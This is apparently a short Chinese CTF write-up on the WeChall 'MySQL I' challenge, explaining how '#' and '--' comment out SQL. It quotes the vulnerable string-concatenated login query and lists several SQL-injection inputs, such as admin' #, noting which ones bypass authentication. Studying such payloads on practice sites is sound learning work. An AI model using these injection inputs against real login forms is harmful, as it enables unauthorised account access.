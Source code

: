 ```yaml
---
title: WeChall
date: 2022-10-06
description: 关于#和--在sql中的具体用法
category: 信息安全
tags:
  - CTF
  - Web
  - SQL
---
```

# --和#的具体用法
`#`是php和sql中的注释，而`--`仅是sql语言中的注释,`--`在使用时后面必须有一个空格  
wechall原题是MySQL I，关键代码为`$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";`
这里的`#`和`--`都不是在php语句中发挥作用，因此不用闭合双引号
```
admin' ;#                           可以
admin' #                            可以，sql中也使用分号划分语句
admin' or 1=1;#                     不可以，此时没有以admin身份登录

Admin' -- yes i can                 可以
Admin' --yes i can                  不可以，--后面没有空格
Admin' --                           不可以，--后面没有空格（后面的句子会顶上来）
Admin' -- (a space here)            可以
```

 